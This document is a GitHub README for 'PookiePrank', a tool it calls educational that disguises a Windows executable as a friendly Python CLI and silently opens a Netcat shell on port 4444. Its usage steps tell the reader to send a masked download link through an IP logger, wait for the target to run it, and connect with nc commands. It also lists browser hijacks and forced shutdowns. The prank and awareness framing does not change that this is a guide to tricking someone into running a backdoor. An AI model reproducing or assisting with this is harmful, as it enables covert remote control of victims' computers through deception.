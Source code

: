 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


PLEASE READ THE FULL DOCUMENTATION FOR THE BETTER UNDERSTANDING OF THE PROJECT.
---

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `Netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- A educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- This is the command that triggers the backdoor in our Window machine (Runs automatically on running the Python file).
   ```bash
   nc64 -lvp 4444
   ```
- The command attacjer needs to run in their machines.
  - For Linux
    ```bash
   nc <ip_address_of _the_target_machine> 4444
  
  - For Windows
    ```bash
    nc64 <ip_address_of _the_target_machine> 4444
    
6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy.

— *PookieSec Ops Out.*
